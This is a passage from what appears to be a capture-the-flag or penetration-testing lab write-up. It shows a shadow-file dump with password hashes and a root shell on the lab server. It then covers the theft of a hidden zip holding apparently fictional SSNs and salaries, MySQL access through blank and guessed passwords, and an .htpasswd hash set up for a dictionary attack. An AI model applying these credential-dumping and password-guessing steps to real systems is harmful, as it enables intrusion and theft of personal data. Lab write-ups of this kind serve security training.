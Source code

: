 ```
rpc:*:9797:0:::::
sshd:*:9797:0:::::
gdm:*:9797:0:::::
pop:*:9797:0:::::
nobody:*:9797:0:::::
pirrip:$1$KEj04HbT$ZTn.iEtQHcLQc6MjrG/Ig/:13882:0:99999:7:::
magwitch:$1$qG7/dIbT$HtTD946DE3ITkbrCINQvJ0:13882:0:99999:7:::
!/bin/bash
bash-3.1# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy)
bash-3.1#
```

The server has been successfully rooted. I knew from the previous two challenges that rooting the server wasn't enough. There would be some hidden file with confidential information hidden away somewhere, so I started searching for it. 

I found a file called /root/.save/great_expectations.zip. I tried to unzip it but the server complained that the disk was full, so I transferred it over to /var/www/htdocs and downloaded it to my machine. After extracting and pouring over the contents of the zip file, one in particular stood out. A file called Jan08 contained the pay raise information and social security numbers for pirrip, havisham, and magwitch:

```
root@syconium# cat Jan08 
--snip--
To: pirrip@slax.example.net
Subject: Raises
User-Agent: nail 11.25 7/29/05
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
 
Here's the data for raises for your team:
Philip Pirrip:  734-67-0424 5.5% $74,224
Abel Magwitch:  816-03-0028 4.0% $53,122
Estella Havisham: 762-93-1073 12% $84,325
```

Mission accomplished, but I didn't stop there. MySQL was running on the server and I wanted to see if there was any interesting data on it. I tried logging in without passwords as havisham, magwitch, and pirrip and it let me in. Nothing to see there though. I tried using root but it wanted a password. I tried guessing the password as root and toor, and got in with password toor. Unfortunately, no interesting data was stored. 

I found a /usr/local/apache/.htpasswd file with the following contents:

```
bash-3.1# cat /usr/local/apache2/.htpasswd 
aadams:bS.PQ9hVYEqrQ
```

Looks like the password was encrypted with crypt(). The first two characters in the ciphertext is the salt. Knowing this, I wrote a quick python script to try a dictionary attack on the password:
